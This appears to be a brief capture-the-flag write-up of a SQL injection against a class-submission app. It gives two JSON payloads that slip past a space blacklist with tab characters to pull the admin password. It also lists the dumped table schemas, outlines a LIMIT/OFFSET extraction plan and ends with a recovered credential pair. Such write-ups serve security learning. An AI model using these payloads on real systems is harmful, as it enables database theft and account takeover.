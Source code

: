 This was a SQL injection which had a blacklist of spaces. In order to bypass this, I used the unicode character for tab

first poc sql injection
```json
{
    "name": "fdsafdsaasdfasdf',\u0009(SELECT\u00091))\u0009RETURNING\u0009id,\u0009password--",
    "passwd":""
}
```
extract admin pw
```json
{
    "name": "12',\u0009(SELECT\u0009password\u0009FROM\u0009users\u0009WHERE\u0009username='admin'))\u0009RETURNING\u0009id,\u0009password--",
    "passwd":""
}
```

start exfilling db using LIMIT and OFFSET

users: ["id", "username", "password", "admin"]
classes: ["id", "name", "open"]
assignments: ["id", "class_id", "name", "text", "grading_binary"]
submissions: ["id", "user_id", "assignment_id", "filename"]
submission_results: ["id", "submission_id", "result", "message"]

look for valid submissions -> match submission id to user_id -> get password and login as that user

username:password
jU9KdEBhtp8Qd5Zt:jU9KdEBhtp8Qd5Zt
